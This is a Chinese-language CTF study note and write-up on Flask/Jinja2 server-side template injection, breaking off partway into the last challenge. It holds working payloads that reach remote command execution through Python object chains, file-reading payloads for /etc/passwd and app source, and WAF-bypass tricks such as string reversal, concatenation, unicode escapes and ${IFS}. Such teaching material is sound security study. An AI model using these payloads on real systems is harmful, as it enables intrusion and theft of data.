SSTI 1 - (Flask) 总结 
===

## SSTI - 基于 Flask + Jinja2 的服务端模板注入

### SSTI 注入原理

模板引擎的核心是动态执行开发者预设的"**魔术方法**"或函数，而攻击者正是利用这种动态性注入恶意代码。

#### 数据结构

下面从数据结构层面系统阐述类、对象、实例的关系，并以此为基础解析SSTI注入本质：

数据结构层面上, 类 (Class), 对象 (Object), 实例 (Instance) 的关系: (以 Python 为例)

```python
class User:  # 类定义 (蓝图)
    def __init__(self, name):
        self.name = name  # 实例属性
        
    def greet(self):      # 实例方法
        return f"Hello, {self.name}"

# 创建实例 
user1 = User("Alice")  # user1是User类的实例 (对象)
print(user1.greet())   # 输出: Hello, Alice

# 类与实例关系验证
print(type(user1))     # <class '__main__.User'>
print(isinstance(user1, User))  # True
```

#### 调用链

以 Python 为例, 在 Python 中，**所有实体都是对象**，它们的内存结构包含三个核心部分：



---

>  - `ob_type` 指针: 每个对象头部包含指向其类型对象的指针;
>  - 类型对象 (`PyTypeObject`)：包含类的元信息
>    - `tp_dict`: 存储类属性和方法的字典;
>    - `tp_mro`: 方法解析顺序元组 (继承链); 这个继承链实际上是拓扑结构。它指向一个元组对象 (`PyTupleObject`)，这个元组包含了该类的方法解析顺序;
>    - `tp_base`: 直接父类指针;
>    - `tp_subclasses`: 子类列表;

看到这里其实已经可以发现, `tp_mro` 实际上提供了一直向上回溯的方式来找到父类, 然后再遍历其所有 子类->对象 来找到目标对象。下一步只要找到对应的方法即可。

#### 魔术方法

所有语言都会预留可自定义的魔术方法来方便开发, 依然以 python 的一个典型 payload 为例:

```python
# Python SSTI 典型Payload：
{{ ''.__class__.__base__.__subclasses__()[X] }}
# 解析：
# 1 ''.__class__       → 获取字符串实例的类（str）
# 2 .__base__          → 跳转到父类（object）
# 3 .__subclasses__()  → 获取所有子类列表
# 4 [X]                → 定位到危险子类（如os._wrap_close）

例如:
{{ ''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['os'].system('id') }}
```

---

|魔术方法|定义|返回结果|
|----|----|----|
|`''.__class__`|获取对象的 `ob_type` 指针|这里是空字符串, 因此 返回指向 `<class 'str'>` 的指针|
| `.__mro__` |遍历方法解析顺序 (MRO), 访问类型对象的 `tp_mro` 字段|`(<class 'str'>, <class 'object'>)`|
|`.__mro__[1].__subclasses__()`|获取基类 (object) 的子类列表, 访问object 类型的 `tp_subclasses`, 列表结构 |`[<class 'type'>, <class 'weakref'>,...,<class 'os._wrap_close'>,<class 'subprocess.Popen'>]`, 其中 `os._wrap_close` 为攻击目标|
|`.__subclasses__()[132].__init__`|定位敏感类并获取初始化函数: 获取 `os._wrap_close` 类的 `tp_init` 函数指针| 
|`.__globals__`|提取函数全局命名空间, 访问函数对象的 `func_globals` 字段| `{'__name__': 'os','system': <built-in function system>,...}`, 其中 `'system':` 为攻击目标|
|`__builtins__`|以一个集合的形式查看其引用||


> `os._wrap_close`: 隐式引用 `os` 模块, Python 3.3+ 稳定存在, 继承自 PyBaseObject。

---

#### 内建函数

当我们启动一个 python 解释器时，即时没有创建任何变量或者函数，还是会有很多函数可以使用，我们称之为内建函数。

内建函数并不需要我们自己做定义，而是在启动python解释器的时候，就已经导入到内存中供我们使用，想要了解这里面的工作原理，我们可以从名称空间开始。

`__builtins__` 方法是做为**默认初始模块**出现的，可用于**查看当前所有导入的内建函数**。

#### 攻击链

理解完这些魔术方法, 到这里已经形成了一条完整的攻击链:



实战中攻击链可以有很多条 (敏感类不止一个), 对于不同的语言, 也有多种不同的魔术方法。

### 探测姿势

首先, 同其他 web 漏洞一样, 要找到一个用户交互传参并且有回显的地方, 尝试 `{{7*7}}` 这样的注入, 如果结果被计算了, 则说明此处存在 SSTI 注入:

#### 确认渲染引擎

接下来要确定网站所用的渲染引擎, 常用的测试模板如下:



也可以用 `_self.env` 测试是不是 twig, `{{''.__class__}}` 测试是不是 Jinja2

#### 沙箱绕过

沙箱 (Sandbox) 在 SSTI 防护中是一种**代码隔离容器**，其核心目标：允许模板表达式执行，但阻断危险系统操作。



常见关键组件:

> 1. 命名空间隔离：创建纯净的全局/局部字典
> ```python
> safe_globals = {'len': len, 'str': str}  # 白名单函数
> safe_locals = {'user_input': filtered_value}
> ```
> 2. 操作码过滤器：拦截危险字节码, 和其他注入防护差不多; 例如过滤 `(` `)` `__class__` 等

例如这个沙箱:

```python
# Jinja2 沙箱
from jinja2.sandbox import SandboxedEnvironment

env = SandboxedEnvironment(
    autoescape=True,
    # 关键防护配置：
    overrides={
        '__class__': None,        # 禁用类访问
        '__globals__': None       # 阻断全局空间
    },
    # 函数白名单
    allowed_functions=['range', 'lower']
)
```

```php
# Twig 沙箱
<?php
$twig = new \Twig\Environment($loader, [
    'sandbox' => [
        'allowedTags' => ['if'],       # 仅允许if标签
        'allowedFilters' => ['escape'],# 仅允许escape过滤器
        'allowedMethods' => [],        # 禁止对象方法
        'allowedProperties' => []      # 禁止对象属性
    ]
]);
```

常用的绕过手法:

**字符串拼接**: (CVE-2020-28493) 

```python
{{ ()["__cla"+"ss__"]["__ba"+"se__"]["__subcla"+"sses__"]()[132]["__in"+"it__"]["__glob"+"als__"]["po"+"pen"]("id") }}
```

- 字符串拼接规避关键词检测;
- 使用元组 `()` 替代字符串起始点;
- 利用未过滤的魔术方法链;

#### 常用 payload

(Jinja2)

从 `__class__` 开始:

```python
''.__class__.__base__.__subclasses__()[127].__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()
```

从 `__self__` 开始:

```python
{{self.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}} 
```

#### 自动化探测

用这个工具就够了: [Github - tplmap](https://github.com/epinna/tplmap)

### Write up 记录

#### SSTI 1

> 来源 BUUCTF

一进去就显示密码错误, 尝试一下 GET 传参发现姿势正确, 参数名就是 `password`, 接下来试试:



返回 str 类, 说明为 Jinja2 SSTI; 接下来往上找:





定位到 `os_wrap_close` 这个类, 找到下标是 127:

此时 payload:
```python
http://4f84ad86-863a-43f5-84af-1ddcf93711e1.node5.buuoj.cn:81/?password={{%27%27.__class__.__base__.__subclasses__()[127].__init__.__globals__}}
```



这里显示有一个 flag, 很可惜提交显示错误, 应该是个兔子洞; 寻找其他利用, 这里考虑用: ``__builtins__``

> `__builtins__` 是一个包含内置函数的模块（或字典），其中就包括 `open` 函数。通过访问 `__builtins__`，我们可以获得执行文件操作的能力。在沙箱逃逸或模板注入中，我们经常需要利用现有的类来获取 `__builtins__`，因为 `__builtins__` 提供了很多危险的函数（如 `open`、`eval`、`exec` 等），这些函数可以帮助我们读取文件或执行命令。

构造payload:
```python
http://4f84ad86-863a-43f5-84af-1ddcf93711e1.node5.buuoj.cn:81/?password={{''.__class__.__base__.__subclasses__()[127].__init__.__globals__['__builtins__']['open']("/app/server.py").read()}}
```



> Flask 默认结构：
> 主程序常命名为 `server.py` 或 `app.py`, 在 `/app` 目录下(docker 部署)

拿到flag: `n1book{eddb84d49a421a82}`

其他常用的 `__builtins__` 利用:
```python
# 读取系统文件
{{...['open']("/etc/passwd").read()}}

# 执行命令（需导入 os）
{{...['__import__']('os').system('id')}}

# 获取交互 shell
{{...['eval']("__import__('os').popen('/bin/sh').read()")}}
```

#### [NewStarCTF 公开赛赛道]BabySSTI_One

尝试一下, 存在 SSTI



源代码提示, 此处是 Flask SSTI, 但是输入 `''.__class__` 发现被过滤了:



进一步尝试别的 payload (`''["__cla"+"ss__"]`, `{{config}}`, `{{self}}`, `''.__name__`), 均返回空:

说明服务端可能运行在一个受限的沙箱内; 经过测试, 可能对 `'class'` `'base'` `'mro'` `'init'`做了过滤。

考虑字符串拼接, 经过尝试, `__getattribute__()` 没有被过滤:

处理一下这个 payload: 
```python
# self.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()
self.__getattribute__('__i'+'nit__').__globals__.__builtins__['__import__']('os').popen('ls').read()
```



成功了, 已经可以执行命令。

之后检查一下路径:

```python
http://b87c4760-3fa1-4003-b490-4f635427511b.node5.buuoj.cn:81/?name={{self.__getattribute__('__i'+'nit__').__globals__.__builtins__['__import__']('os').popen('ls ../').read()}} 
```



接着尝试读这个 flag_in_here, 结果被 WAF 挡了, 可能是 flag 被过滤了, 用拼接字符串:

```python
http://b87c4760-3fa1-4003-b490-4f635427511b.node5.buuoj.cn:81/?name={{self.__getattribute__('__i'+'nit__').__globals__.__builtins__['__import__']('os').popen('ca'+'t ../fla'+'g_in_here').read()}} 
```



拿到flag : flag{3140293f-b827-499d-b02c-7daaff59d68a}

#### [NewStarCTF 公开赛赛道]BabySSTI_Two

首先还是用 `{{7*'7'}}`, 发现是 Flask + Jinja2:



尝试上一题的 payload, 发现 `__getattribute__()` 也被过滤了, 以及 `init`, `mro`, `class`, `attr`. 

尝试通过 `''['__ini'+'t__']` 拼接, 以及十六进制编码, 发现也被过滤;

查看 WP 后发现此处应用**逆序**, 也就是 `''['__tini__'[::-1]]`, 发送后发现未被过滤, 构造payload:

```python
http://eab7e4dc-d75a-4348-bf8f-18c210b29b46.node5.buuoj.cn:81/?name={{''['__ssalc__'[::-1]]['__sesab__'[::-1]][0]['__sessalcbus__'[::-1]]()}}
```

打开响应源代码:



定位到 `os._wrap_close`, 继续构造

```python
http://eab7e4dc-d75a-4348-bf8f-18c210b29b46.node5.buuoj.cn:81/?name={{''['__ssalc__'[::-1]]['__sesab__'[::-1]][0]['__sessalcbus__'[::-1]]()[117]['__tini__'[::-1]]['__slabolg__'[::-1]]}}
```

进一步:

```python
http://eab7e4dc-d75a-4348-bf8f-18c210b29b46.node5.buuoj.cn:81/?name={{%27%27[%27__ssalc__%27[::-1]][%27__sesab__%27[::-1]][0][%27__sessalcbus__%27[::-1]]()[117][%27__tini__%27[::-1]][%27__slabolg__%27[::-1]][%27nepop%27[::-1]](%27whoami%27).read()}}
```

回显:


说明已经实现了 RCE, 接下来尝试读取文件

```python
http://eab7e4dc-d75a-4348-bf8f-18c210b29b46.node5.buuoj.cn:81/?name={{%27%27[%27__ssalc__%27[::-1]][%27__sesab__%27[::-1]][0][%27__sessalcbus__%27[::-1]]()[117][%27__tini__%27[::-1]][%27__slabolg__%27[::-1]][%27nepop%27[::-1]](%27ls%27).read()}}

# 把其中的指令替换为:
# ls, ls ~, ls /等
```

测试发现 `cat` 和 ` ` 被过滤了, 通过嵌入变量的方式可以绕过:

```
ca${Z}t${IFS}/
```

> 原理:  
> 1. `Z`：这里 `Z` 是一个未定义的变量，在Bash中，未定义的变量会被替换为空字符串。所以 `ca${Z}t` 就变成了 `cat`。
> 2. `IFS`： `IFS`是 Bash 的内部字段分隔符，默认值为空格、制表符、换行符。所以这里用 `${IFS}` 代替了空格，从而绕过了对空格的过滤。

接下来编辑 payload:

```bash
ls${IFS}/
```



继续调整:

```bash
ls${IFS}/fla${Z}g_in_h3r3_52daad
# 发现无结果, 说明是一个文件

ca${Z}t${IFS}/fla${Z}g_in_h3r3_52daad
```



拿到 flag: `flag{d90c5ef2-1a36-47c0-8bce-f78a1c7ee9d4}`

另一种思路: 通过尝试可以发现普通的拼接字符串不行的原因是本题过滤了 `+`, 但是 python 的 payload 中, 当两个字符串紧挨的时候, 会自动拼接, 也就是说, `+` 是可以省略的!

> 也就是说, `'__class__'` = `'__clas'+'s__'` = `'__clas''s__'`; 这样就绕过了对 `class` 和 `+` 的过滤

#### [NewStarCTF 公开赛赛道]BabySSTI_Three

确认步骤相同, 仍然是 Flask SSTI; 然后输入上一题的 payload, 多次测试后发现去除了 `-`, 并且过滤了 `:`, `request`

根据上题中的第二种思路, 这里只需要将 `_` 用 unicode 编码即可;

payload:

```
?name={{[]['\x5f\x5fcl''ass\x5f\x5f']['\x5f\x5fba''se\x5f\x5f']['\x5f\x5fsubc''lasses\x5f\x5f']()[117]['\x5f\x5fin''it\x5f\x5f']['\x5f\x5fglo''bals\x5f\x5f']['po''pen']('\u0063\u0061\u0074\u0020\u002f\u0066\u006c\u0061\u0067\u005f\u0069\u006e\u005f\u0068\u0033\u0072\u0033\u005f\u0035\u0032\u0064\u0061\u0061\u0064').read()}}
```



#### [Dest0g3 520迎新赛]EasySSTI

先测试表单, 发现过滤了 `.` ,`[]`, `'`, `"`, `_`, `class`, `request` , `system`, `os`

`self` `config` `()` `|` `~`是可用的

尝试 `{{config}}`:



下一步构建 payload: `config|string|list` , 这一步实际上执行的是 `list(str(config))`, 将 `config` 先转为 `string`, 再强制分割为列表:

